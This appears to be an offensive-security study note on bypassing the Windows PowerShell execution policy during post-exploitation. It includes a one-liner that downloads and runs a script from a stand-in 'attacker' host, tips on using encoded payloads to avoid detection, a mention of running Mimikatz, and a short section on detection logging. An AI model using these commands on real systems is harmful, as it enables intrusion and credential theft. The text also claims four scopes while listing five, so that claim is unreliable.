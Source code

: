 # Windows PowerShell Execution Policy

The **Execution Policy** in PowerShell is a safety feature designed to control the conditions under which PowerShell loads configuration files and runs scripts. It is **not a security boundary**, but understanding and manipulating it is essential in post-exploitation to execute malicious scripts or bypass detection.
## 1. Execution Policy Levels

PowerShell has **4 scopes** for execution policy:

|Scope|Description|
|---|---|
|`MachinePolicy`|Set by Group Policy for all users (highest priority)|
|`UserPolicy`|Set by Group Policy for the current user|
|`Process`|Affects only the current PowerShell session|
|`CurrentUser`|Affects only the current user|
|`LocalMachine`|Applies to all users on the computer (default)|
## 2. Common Policy Values

| Policy         | Description                                                    |
| -------------- | -------------------------------------------------------------- |
| `Restricted`   | Default for Windows client OS; no scripts allowed              |
| `AllSigned`    | Only scripts signed by a trusted publisher can be run          |
| `RemoteSigned` | Local scripts run fine; downloaded scripts must be signed      |
| `Unrestricted` | All scripts can run; warns before executing downloaded scripts |
| `Bypass`       | Nothing is blocked and no warnings are shown                   |
## 3. Check Execution Policy

```powershell
Get-ExecutionPolicy -List
```
## 4. Modify Execution Policy

### Temporary (Current Session)

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

This is preferred in post-exploitation to avoid persistent changes.
### Persistent (All Users)

```powershell
Set-ExecutionPolicy RemoteSigned -Scope LocalMachine
```

> Requires administrative privileges.
## 5. Bypass Techniques (Post-Exploitation)

Even if the execution policy blocks script execution, there are several ways to **bypass** it:
### ▶ Using `-ExecutionPolicy` Flag

```powershell
powershell -ExecutionPolicy Bypass -File script.ps1
```
### ▶ Encoded Commands

```powershell
powershell -EncodedCommand <Base64Command>
```
### ▶ Inline Commands

```powershell
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')"
```
## 6. Offensive Use Cases

| Situation                       | Technique                                            |
| ------------------------------- | ---------------------------------------------------- |
| **Script blocked**              | `Set-ExecutionPolicy Bypass -Scope Process`          |
| **Avoid detection/logging**     | Use encoded or inline payloads                       |
| **Script download and exec**    | `IEX (New-Object Net.WebClient).DownloadString(...)` |
| **Running PowerView, Mimikatz** | Often needs execution policy changes or bypasses     |
## 7. Detection and Logging

Sysmon or PowerShell logs (Event ID 4104) may capture script block logging.  
Security solutions may trigger alerts on:

- Use of `Set-ExecutionPolicy`    
- Use of `-EncodedCommand` or `IEX`
